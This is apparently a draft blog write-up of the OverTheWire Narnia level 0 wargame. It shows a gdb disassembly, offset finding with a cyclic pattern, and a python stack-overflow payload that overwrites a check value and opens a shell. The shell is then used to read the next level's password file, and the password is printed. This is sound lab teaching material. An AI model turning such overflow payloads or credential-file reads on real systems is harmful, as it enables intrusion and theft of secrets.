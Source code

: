 +++
title = "Over the wire - narnia00"
description = "Over the wire - narnia00"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-00"
project_url = "https://greyhat.dk/over-the-wire-narnia-00"
type = "post"
+++



(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484fd <+0>:	push   ebp
   0x080484fe <+1>:	mov    ebp,esp
   0x08048500 <+3>:	and    esp,0xfffffff0
   0x08048503 <+6>:	sub    esp,0x30 ; 48
   0x08048506 <+9>:	mov    DWORD PTR [esp+0x2c],0x41414141
   0x0804850e <+17>:	mov    DWORD PTR [esp],0x8048630 ; "Correct val's value from 0x41414141 -> 0xdeadbeef!"
   0x08048515 <+24>:	call   0x80483a0 <puts@plt>
   0x0804851a <+29>:	mov    DWORD PTR [esp],0x8048663
   0x08048521 <+36>:	call   0x8048390 <printf@plt>
   0x08048526 <+41>:	lea    eax,[esp+0x18]
   0x0804852a <+45>:	mov    DWORD PTR [esp+0x4],eax
   0x0804852e <+49>:	mov    DWORD PTR [esp],0x8048679
   0x08048535 <+56>:	call   0x80483f0 <__isoc99_scanf@plt>
   0x0804853a <+61>:	lea    eax,[esp+0x18]
   0x0804853e <+65>:	mov    DWORD PTR [esp+0x4],eax
   0x08048542 <+69>:	mov    DWORD PTR [esp],0x804867e
   0x08048549 <+76>:	call   0x8048390 <printf@plt>
   0x0804854e <+81>:	mov    eax,DWORD PTR [esp+0x2c]
   0x08048552 <+85>:	mov    DWORD PTR [esp+0x4],eax
   0x08048556 <+89>:	mov    DWORD PTR [esp],0x8048687
   0x0804855d <+96>:	call   0x8048390 <printf@plt>
   0x08048562 <+101>:	cmp    DWORD PTR [esp+0x2c],0xdeadbeef
   0x0804856a <+109>:	jne    0x804857a <main+125>
   0x0804856c <+111>:	mov    DWORD PTR [esp],0x8048694
   0x08048573 <+118>:	call   0x80483b0 <system@plt>
   0x08048578 <+123>:	jmp    0x8048592 <main+149>
   0x0804857a <+125>:	mov    DWORD PTR [esp],0x804869c
   0x08048581 <+132>:	call   0x80483a0 <puts@plt>
   0x08048586 <+137>:	mov    DWORD PTR [esp],0x1
   0x0804858d <+144>:	call   0x80483d0 <exit@plt>
   0x08048592 <+149>:	mov    eax,0x0
   0x08048597 <+154>:	leave
   0x08048598 <+155>:	ret
End of assembler dump.


(gdb) r
Starting program: /games/narnia/narnia0 reg
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
buf: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7
val: 0x37614136
WAY OFF!!!!
[Inferior 1 (process 5653) exited with code 01]

kgn@kali:~$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 0x37614136
[*] Exact match at offset 20

(echo "$(python -c 'print "B"*20 + "\xef\xbe\xad\xde"')";cat)|./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
